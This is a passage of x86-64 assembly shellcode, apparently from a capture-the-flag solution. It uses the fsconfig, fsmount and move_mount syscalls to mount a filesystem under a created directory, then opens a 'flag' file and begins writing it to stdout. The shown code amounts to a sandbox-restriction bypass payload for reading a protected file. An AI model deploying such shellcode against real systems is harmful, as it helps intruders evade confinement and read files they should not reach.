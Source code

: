 ```c
    js .errExit
    push rax

; fsconfig(fs_fd, FSCONFIG_CMD_CREATE, NULL, NULL, 0)
    mov rdi, [rbp - 8]
    push 6
    pop rsi
    xor rdx, rdx
    xor r10, r10
    xor r8, r8
    mov rax, 431
    syscall
    test rax, rax
    js .errExit

; fsmount(fs_fd, FSOPEN_CLOEXEC, MOUNT_ATTR_RELATIME)
    mov rdi, [rbp - 8]
    push 1
    pop rsi
    xor rdx, rdx
    mov rax, 432
    syscall
    test rax, rax
    js .errExit
    push rax ; rbp - 0x10

    ; close 不 close 的无所谓了
    mov rdi, [rbp - 8]
    mov rax, 3
    syscall
    test rax, rax
    js .errExit

    mov rdi, mnt_dir
    mov rsi, 0777
    mov rax, 83
    syscall
    test rax, rax
    js .errExit

; move_mount(fd, "", AT_FDCWD, "/mnt", MOVE_MOUNT_F_EMPTY_PATH)
    mov rdi, [rbp - 0x10]
    mov rsi, null_byte
    mov rdx, -100
    mov r10, mnt_dir
    mov r8, 4
    mov rax, 429
    syscall
    test rax, rax
    js .errExit

    mov rdi, flag_addr
    xor esi, esi
    push 2
    pop rax
    syscall
    test rax, rax
    js .errExit
    push rax

    mov rdi, 1
    mov rsi, [rbp - 0x18]
    mov rdx, 0
```